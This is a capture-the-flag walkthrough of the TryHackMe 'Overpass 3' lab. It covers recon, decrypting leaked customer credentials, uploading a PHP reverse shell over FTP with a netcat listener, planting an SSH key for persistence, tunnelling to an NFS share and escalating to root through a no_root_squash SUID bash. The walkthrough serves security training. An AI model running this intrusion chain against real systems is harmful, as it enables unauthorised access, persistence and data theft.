### THM - Overpass 3 - Hosting
Difficulty: Medium 

#### Recon
We can start with nmap scan command:

```sudo nmap -vv -A -Pn -p- -oA overpass3_nmap 10.10.205.247```



While nmap still running we can see that port 80, 21, 22 is open. We can start doing some basic manual recon on the webserver port 80.



On the web page, it is safe to assume that paradox, Elf, MuirlandOracle, and James are the users. There is really nothing else to do on the web page. Before we move on to the nmap scan results, lets start our ffuf scan on the webserver. 

```ffuf -u http://10.10.205.247/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -e .php,.txt,.html -ic -c```

Now while ffuf is running, We can move on to the nmapp scan results.



We can see that port 21 is open and running vsftpd 3.0.3. However, we can see that anonymous login is disabled. We can also see that port 22 is open and running OpenSSH 8.0 and port 80 is running Apache httpd 2.4.37. Let's check on the ffuf scan results.



We can see that there is a directory called 'backups'. Let's check on that.



Let's download that backup.zip file and see what's inside.



We can see that there is an excel gpg encrypted file and a private key. Let's try to decrypt the file using the private key and convert it to csv file so we can open it.

```gpg --import priv.key```

```gpg --output CustomerDetials.xlsx --decrypt CustomerDetials.xlsx.gpg```

```ssconvert CustomerDetials.xlsx CustomerDetials.csv```





#### Exploit

We can see that there are some usernames and passwords in the csv file. We also know that paradox and muirlandoracle are the users from the web page. 

Let's see if we can ssh to paradox with the credential we found.



Host doesn't allow ssh login with password.
Let's try to login to the ftp server using the credentials we found.

```ftp 10.10.205.247```
 
 After we login to the ftp server, we can see that it is the /var/www/html directory. It looks like we have permission to upload files. Let's upload a reverse shell and try to get a shell. We will be usig the php reverse shell from pentestmonkey [php_shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). Let's upload the shell and start a netcat listener.



 ```nc -lvnp 4444```

 and call the shell from the browser. ```10.10.205.247/shell.php```

and we got a shell.



Since we have a foothold, let's make this shell feel a little more comfortable. We can use python to get a better shell.

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

```export TERM=xterm```

```stty raw -echo; fg```




#### Privilege Escalation

We can see that we are in the apache user with limited permissions. However, we can try to find a web flag. So let's do some enumeration. This flag is well hidden but after a while of enumeration, we can see that it is in ```/usr/share/httpd/web.flag```. The easier way to find this flag is to use the find command.

```find / -name *flag* 2>/dev/null```

Now that we found it, let's cat it and get the flag.



First flag down. Let's see what other users are on this host. We can use the command ```cat /etc/passwd``` to see all the users on the host.



We can see that paradox user is on there. Let's try to switch to paradox user with su command.



Great!...but we can see that there is no flag in paradox home directory. There is another user called James. However, we dont have James password. Let's do some more enumeration.

*Extra

Since we can't ssh to paradox with password, we can try to create a private key on our machine and add the generated public key to authorized_key in .ssh folder in paradox home directory. This way we can ssh to paradox without password.

```ssh-keygen paradox```

Let's add our public key to authorized_key file.

```echo {OUR_GENERATED_PUBLIC_KEY.pub} >> .ssh/authorized_keys```

Then let's try to ssh to paradox.

```ssh paradox@10.10.205.247 -i paradox```



Great! we can ssh to paradox with our private key. Now let's do some more enumeration to gain access to James account. 

After some basic enum we can see that there is a NFS share on the host with misconfigured permissions. Let's mount the share and see what's inside.



Let's try to mount the share.

```mkdir /tmp/mount```

```sudo mount -v -t nfs 10.10.205.247:/ /tmp/mount```



We got "mount.nfs: mount(2): No route to host" error. Let's see if we can list the nfs mount on the host.

```showmount -e 10.10.205.247```

And we get "clnt_create: RPC: Unable to receive" error. Let's check rpcinfo to see if rpcbind is running.

```rpcinfo -p```



We can see that rpcbind is running and nfs is on the normal nfs port 2049. After trying to run command ```netstat -l``` to see the listening port, we can see that the host doesn't have netstat installed. Hmm...let's try to reverse ssh to the port and try to mount the share again.

```ssh paradox@10.10.205.247 -i paradox -L 2049:localhost:2049```

```sudo mount -v -t nfs localhost:/ /tmp/mount```


Let's go ahead and get that user flag.



We can also find a private key in the share. Let's try to use that key to ssh to James account.


```ssh james@10.10.205.247 -i /tmp/mount/.ssh/id_rsa```

Now that we have user flag and ssh to James user, let's try to get root flag. We know that this share is configured with "no_root_squash" option. We use it to get root shell by upload our own bash with SUID bit set and root as owner. Let's create a bash file with SUID bit set and root as owner.

```cp /bin/bash .```

```chmod +xs bash```



And we can run it with this command to get root.

```./bash -p```



However, we get gcc error. Let's try to use bash from the host.

On James.
```cp /bin/bash .```

```chmod 777 bash```

On our machine.

```chown root bash```

```chmod +xs bash```

On James.

```./bash -p```



Great! We are now root. Let's get the root flag.



And we got the root flag. Thanks for reading.


